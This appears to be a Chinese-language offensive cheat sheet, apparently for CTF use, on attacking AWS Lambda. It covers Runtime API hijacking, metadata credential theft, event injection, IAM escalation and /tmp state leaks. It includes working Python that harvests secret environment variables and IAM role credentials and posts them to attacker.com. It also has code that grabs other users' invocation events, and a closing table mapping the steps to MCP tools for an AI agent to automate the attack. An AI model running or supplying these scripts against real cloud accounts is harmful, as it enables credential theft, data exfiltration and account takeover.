

# Serverless / Lambda 攻击

## 0. Runtime / Event / IAM 路线图

Serverless 题的核心是事件与角色错位：用户控制的 event 进入函数，函数带着云角色访问下游资源。先确定触发源、执行环境、角色权限和状态持久点。

| 信号 | 打点 | 成功样本 | 下一跳 |
|---|---|---|---|
| `AWS_LAMBDA_RUNTIME_API` | 读 env + Runtime API path | handler、region、request id | event replay |
| Function URL / API Gateway | path/header/query/body fuzz | 事件字段进入下游 SDK | SSRF / injection |
| S3/SQS/EventBridge 触发 | 伪造 event shape | Lambda 读取可控 bucket/key/msg | event injection |
| `AWS_ACCESS_KEY_ID` / role env | `sts get-caller-identity` | role ARN、account id | IAM privesc |
| `/tmp` 可写 | 写 marker 后二次触发 | 后续 invocation 读到旧状态 | cold start race |
| layer/extension 信号 | `/opt`, extension process | 代码复用/sidecar 入口 | persistence |



### 0.1 Lambda 基线采集

```python
# lambda_runtime_baseline.py — Runtime / env / /tmp 一次性打点
import json
import os
import pathlib
import requests

def baseline():
    env = {k: v for k, v in os.environ.items()
           if k.startswith(("AWS_", "_HANDLER", "LAMBDA_", "NODE_", "PYTHON")) or
           any(x in k.upper() for x in ["SECRET", "TOKEN", "KEY", "PASS"])}
    runtime = os.environ.get("AWS_LAMBDA_RUNTIME_API")
    tmp = [str(p) for p in pathlib.Path("/tmp").glob("*")][:50]
    out = {"env": env, "runtime_api": runtime, "tmp": tmp, "opt_exists": pathlib.Path("/opt").exists()}
    if runtime:
        for path in ["/2018-06-01/runtime/invocation/next", "/2020-01-01/extension/event/next"]:
            out[path] = f"http://{runtime}{path}"
    print(json.dumps(out, ensure_ascii=False, indent=2))

if __name__ == "__main__":
    baseline()
```

## 1. Lambda Runtime API / Metadata / STS

Lambda 执行环境内的 Runtime API 是攻击者的宝藏。任何 RCE 或 SSRF 都能打到 `http://127.0.0.1:9001/2018-06-01/runtime/`。

```python
# 从 Lambda 内提取 IAM 凭证
import requests, os, json

def steal_creds():
    """Lambda Runtime API → IAM credential chain"""
    # Step 1: 读环境变量
    env_vars = dict(os.environ)
    for k in ["AWS_ACCESS_KEY_ID", "AWS_SECRET_ACCESS_KEY",
              "AWS_SESSION_TOKEN", "_HANDLER", "AWS_LAMBDA_RUNTIME_API"]:
        if k in env_vars: print(f"  {k}={env_vars[k][:20]}...")

    # Step 2: 有 IMDSv2? 先拿 token
    try:
        token = requests.put(
            "http://169.254.169.254/latest/api/token",
            headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"},
            timeout=2
        ).text
        headers = {"X-aws-ec2-metadata-token": token}
    except:
        headers = {}  # IMDSv1 fallback

    # Step 3: 拿 IAM role 凭证
    role = requests.get(
        "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
        headers=headers, timeout=2
    ).text
    creds = requests.get(
        f"http://169.254.169.254/latest/meta-data/iam/security-credentials/{role}",
        headers=headers, timeout=2
    ).json()

    # Step 4: 外带到攻击者服务器
    requests.post("https://attacker.com/collect", json={
        "role": role, "creds": creds, "env": {k: v for k, v in env_vars.items()
            if "SECRET" in k or "KEY" in k or "TOKEN" in k or "PASS" in k}
    })
    return creds

# 有了 creds → 本地配 AWS CLI → 走 IAM action graph
# aws sts get-caller-identity
# aws s3 ls
```

### IAM 分叉矩阵

| 权限信号 | 动作 | 高价值路径 |
|---|---|---|
| `ssm:GetParameter*` | dump `/prod/*`, `/app/*` | DB 密码/JWT secret |
| `secretsmanager:GetSecretValue` | list + get secret | payment/API keys |
| `s3:GetObject/ListBucket` | 枚举 bucket/key | source、flag、artifact |
| `lambda:UpdateFunctionCode` | 替换同角色函数代码 | 持久执行 |
| `iam:PassRole + lambda:CreateFunction` | 创建新函数挂高权 role | role pivot |
| `sts:AssumeRole` | 枚举 trust role | account/org pivot |

## 2. Runtime API 事件轮询

```python
# 劫持后续 Lambda 调用
# Lambda 通过 GET /runtime/invocation/next 获取事件
# 攻击者可以先终止当前调用，然后轮询下一个事件 → 窃取数据

def hijack_next_invocation():
    """Hook Lambda runtime 获取下一个请求的事件数据"""
    NEXT_URL = "http://127.0.0.1:9001/2018-06-01/runtime/invocation/next"
    # Cookie / API key 可能在事件 payload 中
    r = requests.get(NEXT_URL, timeout=30)
    # r.headers["lambda-runtime-aws-request-id"] → request ID
    # r.text → 完整事件 JSON (可能含用户输入、token、PII)
    return r.json()
```

## 3. Event Injection (触发源投毒)

```python
# S3 触发器: bucket 名可控 → 其他 bucket 事件注入
# SQS 触发器: 队列名可控 → 跨账户消息注入
# API Gateway: path parameters 注入 → 内部路由绕过

# 示例: S3 Put 事件注入
s3_event = {
    "Records": [{
        "s3": {
            "bucket": {"name": "attacker-controlled-bucket"},
            "object": {"key": "malicious_file.json"}
        }
    }]
}
# 如果 Lambda 信任事件中的 bucket name 去读文件 → SSRF/文件读取
```

### 事件源变体矩阵

| 触发源 | 可控字段 | 常见 sink | 命中标志 |
|---|---|---|---|
| API Gateway / Function URL | path、query、headers、body | SSRF、SQLi、模板、签名 | 下游请求/状态差异 |
| S3 | bucket、key、versionId、metadata | `s3.get_object` | 读取可控对象 |
| SQS/SNS | message body、attributes | JSON parser / command arg | handler 分支变化 |
| EventBridge | detail-type、detail | workflow/cron action | 非预期任务执行 |
| DynamoDB Stream | NewImage/OldImage | 账本同步 | 订单/余额状态错位 |

```python
# lambda_event_shape_mutator.py — 按触发源生成可控事件
def api_event(path="/pay/success", qs=None, headers=None, body=""):
    return {"version": "2.0", "rawPath": path, "queryStringParameters": qs or {},
            "headers": headers or {}, "body": body, "isBase64Encoded": False}

def s3_event(bucket, key):
    return {"Records": [{"eventSource": "aws:s3",
            "s3": {"bucket": {"name": bucket}, "object": {"key": key}}}]}

def sqs_event(body):
    return {"Records": [{"eventSource": "aws:sqs", "body": body,
            "messageAttributes": {"trace": {"stringValue": "ctf", "dataType": "String"}}}]}
```

## 4. IAM 权限枚举 & 提权

```python
# 从 Lambda 角色枚举所有可用 IAM action
def enumerate_iam(creds):
    import boto3
    client = boto3.client('iam',
        aws_access_key_id=creds['AccessKeyId'],
        aws_secret_access_key=creds['SecretAccessKey'],
        aws_session_token=creds['Token']
    )
    # 检查所有 Lambda 操作权限
    actions = [
        "lambda:UpdateFunctionCode", "lambda:CreateFunction",
        "iam:PassRole", "iam:CreateAccessKey", "iam:AttachUserPolicy",
        "s3:ListBuckets", "s3:GetObject",
        "dynamodb:Scan", "dynamodb:GetItem",
        "ssm:GetParameter", "sts:AssumeRole",
    ]
    for action in actions:
        try:
            # 用 simulate-principal-policy 或直接 try
            pass  # 实际通过 dry-run 或报错判断
        except: pass
```

## 5. 冷启动 /tmp 状态错位

```python
# Lambda 冷启动时 /tmp 是共享的
# 如果两次调用使用同一个 execution environment:
# Call 1: 写入 /tmp/payload.json
# Call 2: 相同的 env → 读到 Call 1 的数据

# 利用: 先写入大型恶意 payload，等待下一个请求使用
```

```python
# lambda_tmp_state_confusion.py — warm environment 状态错位
import json
from pathlib import Path

STATE = Path("/tmp/last_event.json")

def handler(event, context):
    previous = json.loads(STATE.read_text()) if STATE.exists() else None
    STATE.write_text(json.dumps(event))
    return {"previous": previous, "current": event}
```

成功样本：第二次 invocation 返回上一位用户的 token、订单号、签名样本或临时文件路径。失败样本：每次都是全新环境，或 handler 不读 `/tmp` 旧状态。

## 6. Layer / Extension / Import Hook

| 信号 | 打点 | 利用方向 |
|---|---|---|
| `/opt/python`, `/opt/nodejs` | 列 layer 包 | 依赖劫持/import hook |
| extension 进程 | `/opt/extensions/*` | 读事件、环境、日志 |
| 自定义 runtime | bootstrap 可写/可替换 | handler 包装 |
| CI 构建 layer | artifact/cache 泄露 | 供应链到函数 |

## 攻击链

```
SSRF → metadata → IAM credential → AWS CLI → 数据/全账户
RCE → Lambda Runtime API → 劫持后续调用 → 窃取事件数据
Event Injection → 触发器参数污染 → Lambda 读取攻击者资源
Lambda → ssm:GetParameter → 读所有环境变量 → DB 密码
Lambda → sts:AssumeRole → 跨账户提权 → 组织级访问
```

## Evidence

- `lambda_baseline.json`: runtime API、handler、region、env key 列表、`/tmp`、`/opt`、request id。
- `event_mutations.jsonl`: source、event shape、payload、响应、handler 分支。
- `sts_identity.json`: role ARN、account、session name、可用 action 证据。
- `iam_action_matrix.csv`: action、resource、allowed/error、下一跳。
- `tmp_state_diff.json`: invocation id、写入 marker、下一次读取结果。
- `layer_extension_probe.json`: `/opt` 文件、extension 进程、import path。
- 成功样本: role 凭证可用、SSM/Secrets/S3 返回关键数据、event injection 触发下游读写、`/tmp` 泄出上一轮事件、flag。
- 失败样本: metadata blocked、role 仅日志权限、event 字段不进入 sink、warm state 不复用。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| Serverless 端点探测 | `http_probe` | HTTP GET 探测 serverless Lambda 端点 |
| 知识检索 | `kb_router` | 按 serverless 攻击信号搜索知识库 |
| IAM 下一跳 | `kb_router` | 发现 role/action 后跳转 AWS IAM 路径 |
